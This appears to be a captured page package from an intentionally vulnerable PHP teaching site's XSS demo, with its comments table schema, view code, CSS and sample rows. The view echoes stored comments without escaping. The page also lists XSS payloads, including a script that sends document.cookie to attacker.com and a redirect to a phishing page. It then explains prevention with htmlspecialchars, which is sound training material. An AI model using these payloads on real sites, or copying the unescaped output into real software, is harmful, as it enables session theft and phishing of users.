

Screenshot of /pages/xss_vulnerable.php (upper part) with the database file from the repository (2 pictures, top to bottom).
### tables this page shows
CREATE TABLE comments (
    id INT PRIMARY KEY AUTO_INCREMENT,
    name VARCHAR(100),
    email VARCHAR(100),
    message LONGTEXT,
    status ENUM('pending', 'approved', 'rejected') DEFAULT 'pending',
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
    INDEX idx_status (status),
    INDEX idx_created_date (created_at)
);

### pages/xss_vulnerable.php (the view, shortened to what this page needs)
<?php
include '../includes/config.php';
$comments_list = array();
$result = $conn->query("SELECT id, name, email, message, created_at FROM comments WHERE status='approved' ORDER BY created_at DESC");
if ($result) {
    while ($row = $result->fetch_assoc()) {
        $comments_list[] = $row;
    }
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="../css/style.css">
</head>
<body>
    <header>
        <h1>💬 Comments & Feedback (XSS VULNERABLE)</h1>
        <p>Cross-Site Scripting (XSS) Vulnerability Demonstration</p>
    </header>
    <nav>
        <a href="../index.html">Home</a>
        <a href="login_vulnerable.php">Login (Vulnerable)</a>
        <a href="login_secure.php">Login (Secure)</a>
        <a href="news_vulnerable.php">News (Vulnerable)</a>
        <a href="articles_secure.php">Articles (Secure)</a>
        <a href="xss_vulnerable.php">Comments (XSS Demo)</a>
    </nav>
    <div class="container">
        <div class="column-2">
            <div>
                <div class="card">
                    <h2>Post a Comment</h2>
                    <div class="vulnerability-box">
                        <strong>⚠️ VULNERABILITY ALERT:</strong><br>
                        This comment section is <strong>VULNERABLE to XSS</strong>.
                        Comments are displayed without proper sanitization or encoding.
                    </div>
                    <form method="POST">
                        <div class="form-group">
                            <label for="name">Your Name:</label>
                            <input type="text" id="name" name="name" required placeholder="Enter your name">
                        </div>
                        <div class="form-group">
                            <label for="email">Your Email:</label>
                            <input type="email" id="email" name="email" required placeholder="Enter your email">
                        </div>
                        <div class="form-group">
                            <label for="comment">Comment:</label>
                            <textarea id="comment" name="comment" rows="5" required placeholder="Enter your comment or XSS payload"></textarea>
                            <small style="color: #666; margin-top: 0.5rem; display: block;">
                                Try: <code>&lt;script&gt;alert('XSS')&lt;/script&gt;</code>
                            </small>
                        </div>
                        <button type="submit">Post Comment</button>
                    </form>
                    <hr style="margin: 2rem 0; border: none; border-top: 2px solid #ddd;">
                    <h3>XSS Payloads to Test</h3>
                    <div class="vulnerability-box">
                        <strong>🎯 Simple Alert Box:</strong>
                        <div class="code-block">
                            <code>&lt;script&gt;alert('XSS Vulnerability!')&lt;/script&gt;</code>
                        </div>
                    </div>
                    <div class="vulnerability-box">
                        <strong>🎯 Image Tag with Event Handler:</strong>
                        <div class="code-block">
                            <code>&lt;img src=x onerror=alert('XSS')&gt;</code>
                        </div>
                    </div>
                    <div class="vulnerability-box">
                        <strong>🎯 SVG with Event Handler:</strong>
                        <div class="code-block">
                            <code>&lt;svg onload=alert('XSS')&gt;&lt;/svg&gt;</code>
                        </div>
                    </div>
                    <div class="vulnerability-box">
                        <strong>🎯 Steal Session Cookie:</strong>
                        <div class="code-block">
                            <code>&lt;script&gt;fetch('http://attacker.com/steal?cookie='+document.cookie)&lt;/script&gt;</code>
                        </div>
                    </div>
                    <div class="vulnerability-box">
                        <strong>🎯 Redirect to Phishing Page:</strong>
                        <div class="code-block">
                            <code>&lt;script&gt;window.location='http://attacker.com/phishing'&lt;/script&gt;</code>
                        </div>
                    </div>
                </div>
            </div>
            <div>
                <div class="card">
                    <h2>Comments (<?php echo count($comments_list); ?>)</h2>
                    <?php if (!empty($comments_list)): ?>
                        <?php foreach ($comments_list as $comment): ?>
                            <div style="background: #f8f9fa; padding: 1.5rem; margin-bottom: 1rem; border-radius: 5px; border-left: 4px solid #dc3545;">
                                <h4 style="color: #333; margin-bottom: 0.3rem;">
                                    ⚠️ <?php echo $comment['name']; ?>
                                </h4>
                                <small style="color: #999;">
                                    <?php echo $comment['email']; ?> | <?php echo $comment['created_at']; ?>
                                </small>
                                <hr style="margin: 0.5rem 0; border: none; border-top: 1px solid #ddd;">
                                <p style="margin-top: 0.5rem; word-break: break-all;">
                                    <?php echo $comment['message']; ?>
                                </p>
                            </div>
                        <?php endforeach; ?>
                    <?php else: ?>
                        <p style="color: #999; text-align: center; padding: 2rem;">
                            No comments yet. Be the first to comment!
                        </p>
                    <?php endif; ?>
                </div>
            </div>
        </div>
        <div class="card" style="margin-top: 2rem;">
            <h3>Understanding XSS (Cross-Site Scripting)</h3>
            <div class="vulnerability-box">
                <strong>What is XSS?</strong>
                <p style="margin-top: 0.5rem;">
                    XSS occurs when an attacker injects malicious JavaScript code into a web page.
                    When other users view the page, the JavaScript executes in their browser.
                </p>
            </div>
            <h3>How This XSS Works</h3>
            <div class="code-block">
                <code>
                    // Vulnerable display code:<br>
                    &lt;p&gt;&lt;?php echo $comment['message']; ?&gt;&lt;/p&gt;<br>
                    <br>
                    // If comment contains: &lt;script&gt;alert('XSS')&lt;/script&gt;<br>
                    // Result: &lt;p&gt;&lt;script&gt;alert('XSS')&lt;/script&gt;&lt;/p&gt;<br>
                    <br>
                    // Browser executes the script! 💥
                </code>
            </div>
            <h3>What Attackers Can Do with XSS</h3>
            <ul style="margin-left: 1.5rem; line-height: 1.8;">
                <li><strong>Steal Session Cookies:</strong> Capture user authentication tokens</li>
                <li><strong>Steal Credentials:</strong> Create fake login forms to harvest passwords</li>
                <li><strong>Deface Website:</strong> Modify page content for all users</li>
                <li><strong>Redirect Users:</strong> Send users to malicious websites</li>
                <li><strong>Keystroke Logging:</strong> Record what users type</li>
                <li><strong>Malware Distribution:</strong> Inject malware or ransomware</li>
                <li><strong>Perform Actions:</strong> Post, delete, or modify data on behalf of users</li>
            </ul>
            <h3>Types of XSS</h3>
            <div class="security-box">
                <strong>1. Stored XSS (Persistent)</strong>
                <p style="margin-top: 0.5rem;">
                    Malicious code is stored in the database and executed for all users.
                    <br><strong>Example:</strong> Comment with JavaScript saved in database.
                </p>
            </div>
            <div class="security-box">
                <strong>2. Reflected XSS (Non-Persistent)</strong>
                <p style="margin-top: 0.5rem;">
                    Malicious code is in the URL and reflected back to the user.
                    <br><strong>Example:</strong> URL parameter displayed on page without escaping.
                </p>
            </div>
            <div class="security-box">
                <strong>3. DOM-based XSS</strong>
                <p style="margin-top: 0.5rem;">
                    JavaScript code on the page manipulates the DOM unsafely.
                    <br><strong>Example:</strong> <code>document.innerHTML = userInput;</code>
                </p>
            </div>
            <h3>How to Prevent XSS</h3>
            <div class="security-box">
                <strong>✅ 1. Output Encoding (HTML Escaping)</strong>
                <div class="code-block">
                    <code>
                        // VULNERABLE:<br>
                        &lt;?php echo $comment['message']; ?&gt;<br>
                        <br>
                        // SECURE:<br>
                        &lt;?php echo htmlspecialchars($comment['message'], ENT_QUOTES, 'UTF-8'); ?&gt;
                    </code>
                </div>
                <p style="margin-top: 0.5rem;">
                    htmlspecialchars() converts special characters to HTML entities:<br>
                    &lt; becomes &amp;lt;  |  &gt; becomes &amp;gt;  |  " becomes &amp;quot;
                </p>
            </div>
            <div class="security-box">
                <strong>✅ 2. Input Validation</strong>
                <div class="code-block">
                    <code>
                        if (!preg_match('/^[a-zA-Z0-9\s.,!?\'-]*$/', $comment)) {<br>
                        &nbsp;&nbsp;die('Invalid comment format');<br>
                        }
                    </code>
                </div>
            </div>
        </div>
    </div>
</body>
</html>

### css/style.css (style rules this page uses)
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: "Segoe UI", Tahoma, Geneva, Verdana, sans-serif; background: radial-gradient(circle at top left, rgba(255, 214, 153, 0.22), transparent 30%), radial-gradient(circle at top right, rgba(108, 180, 238, 0.18), transparent 28%), linear-gradient(145deg, #f4f7fb 0%, #edf3fb 48%, #e7eef8 100%); color: #152033; min-height: 100vh; display: flex; flex-direction: column; }
a { color: inherit; }
.container { width: min(1180px, calc(100% - 32px)); margin: 0 auto; }
.site-header, header { color: #fff; background: linear-gradient(120deg, rgba(13, 29, 54, 0.95), rgba(15, 74, 92, 0.88)), linear-gradient(180deg, #102038, #0f2742); border-bottom: 1px solid rgba(255, 255, 255, 0.08); box-shadow: 0 18px 40px rgba(9, 24, 47, 0.18); }
header { padding: 1.5rem 2rem; margin-bottom: 1.25rem; }
header h1 { font-size: clamp(2rem, 4vw, 3.2rem); margin-bottom: 0.45rem; }
header p, .header-copy { font-size: 1rem; color: rgba(255, 255, 255, 0.82); max-width: 720px; }
.main-nav, nav { background: rgba(12, 27, 49, 0.92); backdrop-filter: blur(8px); border-bottom: 1px solid rgba(255, 255, 255, 0.06); }
nav { padding: 1rem 2rem; margin-top: -1rem; }
nav a { color: #fff; text-decoration: none; padding: 0.72rem 1rem; border-radius: 999px; transition: transform 0.2s ease, background 0.2s ease, box-shadow 0.2s ease; display: inline-block; background: rgba(255, 255, 255, 0.06); }
.card { background: rgba(255, 255, 255, 0.96); border: 1px solid rgba(17, 41, 69, 0.08); border-radius: 24px; box-shadow: 0 22px 45px rgba(18, 38, 63, 0.1); padding: 2rem; margin-bottom: 2rem; animation: slideIn 0.32s ease-out; }
.btn-primary, button { background: linear-gradient(135deg, #db4c3f 0%, #f28b44 100%); color: #fff; padding: 0.9rem 1.4rem; border: none; border-radius: 14px; font-size: 1rem; font-weight: 700; cursor: pointer; text-decoration: none; transition: transform 0.2s ease, box-shadow 0.2s ease; }
button { width: 100%; }
.form-group { margin-bottom: 1.25rem; }
label { display: block; margin-bottom: 0.5rem; font-weight: 700; color: #1b2f4a; }
input[type="text"], input[type="email"], input[type="password"], input[type="number"], input[type="date"], input[type="tel"], select, textarea { width: 100%; padding: 0.85rem 0.95rem; border: 1px solid #cfdae8; border-radius: 14px; font-size: 1rem; background: #fbfdff; transition: border-color 0.2s ease, box-shadow 0.2s ease; }
.code-block { background: #132338; border-left: 4px solid #f28b44; padding: 1rem; margin: 0.8rem 0; overflow-x: auto; border-radius: 14px; }
.code-block code { font-family: "Cascadia Code", "Courier New", monospace; color: #eef6ff; font-size: 0.92rem; }
.vulnerability-box { background: #fff5d7; border-left: 4px solid #e5a100; padding: 1rem; margin: 1rem 0; border-radius: 14px; }
.vulnerability-box strong { color: #8f6200; }
.security-box { background: #e7f7ed; border-left: 4px solid #2e9b67; padding: 1rem; margin: 1rem 0; border-radius: 14px; }
.security-box strong { color: #165e38; }
.column-2 { display: grid; grid-template-columns: 1fr 1fr; gap: 1.5rem; }

### rows the page displays
comments: name "John Doe", email "john@example.com", created_at "2026-05-04 17:59:30", message "Great article! Very helpful for my studies."
comments: name "Jane Smith", email "jane@example.com", created_at "2026-05-04 17:59:30", message "Thanks for sharing this information."

### other values shown
count($comments_list) "2"
